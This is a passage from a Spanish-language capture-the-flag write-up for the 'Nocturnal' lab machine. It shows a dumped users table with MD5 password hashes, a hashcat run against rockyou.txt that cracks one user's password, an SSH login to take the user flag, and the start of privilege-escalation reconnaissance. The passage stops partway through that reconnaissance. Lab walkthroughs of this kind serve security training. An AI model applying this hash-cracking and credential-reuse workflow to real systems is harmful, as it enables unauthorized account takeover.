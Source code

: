 ```sqlite
INSERT INTO users VALUES(1,'admin','d725aeba143f575736b07e045d8ceebb');
INSERT INTO users VALUES(2,'amanda','df8b20aa0c935023f99ea58358fb63c4');
INSERT INTO users VALUES(4,'tobias','55c82b1ccd55ab219b3b109b07d5061d');
INSERT INTO users VALUES(6,'kavi','f38cde1654b39fea2bd4f72f1ae4cdda');
INSERT INTO users VALUES(7,'e0Al5','101ad4543a96a7fd84908fd0d802e7db');
INSERT INTO users VALUES(8,'ciul','49858702f9317d7b6180b31c8a8120e4');
INSERT INTO users VALUES(9,'ataman','4de85829cc9cdd6983000733b8779c6f');
INSERT INTO users VALUES(10,'Smith','7076192633a1cc795f4db1c674b217b6');
```

todo lo meteremos a un archivo llamado hash.txt

y aplicaremos el siguiente comando

```bash
╭─kali@kali ~/Nocturnal/contenido at 🕐 20:40
╰─❯ hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
```

El unico que nos dio fue el siguiente

```bash
55c82b1ccd55ab219b3b109b07d5061d : slowmotionapocalypse
```

Parece ser del usuario tobias, haremos conexion por ssh, asi conseguimos la flag user.txt

```bash
tobias@nocturnal:~$ ls
user.txt
```

### Escalada

Ahora para elevar privilegios, podemos verificar que tobias no tiene permiso sudo 

```bash
tobias@nocturnal:~$ sudo -l
[sudo] password for tobias:
Sorry, user tobias may not run sudo on nocturnal.
tobias@nocturnal:~$
```

al investigar mas al fondo encontramos que la maquina tiene el puerto corriendo un servicio

![ss-listen](/assets/img/nocturnal-easy/Pasted%20image%2020250824175250.png)
